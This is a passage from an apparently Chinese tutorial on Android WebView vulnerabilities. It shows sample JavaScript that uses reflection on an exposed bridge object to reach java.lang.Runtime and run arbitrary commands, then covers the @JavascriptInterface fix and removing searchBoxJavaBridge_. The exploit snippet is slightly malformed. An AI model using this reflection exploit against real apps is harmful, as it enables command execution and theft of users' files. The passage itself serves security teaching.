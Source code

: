   
示例代码：  
```
function execute(cmdArgs) 
{ 
    // 步骤1：遍历 window 对象
    // 目的是为了找到包含 getClass （）的对象
    // 因为Android映射的JS对象也在window中，所以肯定会遍历到
    for (var obj in window) { 
        if ("getClass" in window[obj]) { 

      // 步骤2：利用反射调用forName（）得到Runtime类对象
            alert(obj);         
            return  window[obj].getClass().forName("java.lang.Runtime") 

      // 步骤3：以后，就可以调用静态方法来执行一些命令，比如访问文件的命令
getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs); 

// 从执行命令后返回的输入流中得到字符串，有很严重暴露隐私的危险。
// 如执行完访问文件的命令之后，就可以得到文件名的信息了。
        } 
    } 
}
```  
  
  
漏洞防护：  
  
Google在Android4.2以后对调用的函数以@JavascriptInterface进行注解从而避免漏洞攻击，也就是说我们js调用Android的方法，必须要在JavascriptInterface中进行声明，这样才能调用，如我们上文中实现的便是如此。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FlmaXSHgoC0UknOib3jVUiak0o8F8UMh02Wa6Qtx47efGHEaoCWtMlvib6LN1cbPh6clnnHE7ic4e3WQ/640?wx_fmt=png "")  
  
后来这种漏洞越来越少，在当前高版本的手机上基本没有了。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FlmaXSHgoC0UknOib3jVUiakkwuEsWAjchvB6co2Yzvn2KxazzX3kwgIabeB5FeuPZSSLs4wIN9nVA/640?wx_fmt=png "")  
  
   
  
在4.2之前，可以采用拦截prompt（）的方式进行漏洞修复，不过这种版本太过久远，所以我们这里就不细讲了。  
  
##### <2>searchBoxJavaBridge_接口引起远程代码执行漏洞  
  
  
漏洞原理：  
  
在Android 3.0以下，Android系统会默认通过searchBoxJavaBridge_的Js接口给 WebView 添加一个JS映射对象：searchBoxJavaBridge_对象，该接口可能被利用，实现远程任意代码。  
  
   
  
安全防护：  
  
删除searchBoxJavaBridge_接口  
```
// 通过调用该方法删除接口
removeJavascriptInterface（）;
```  
  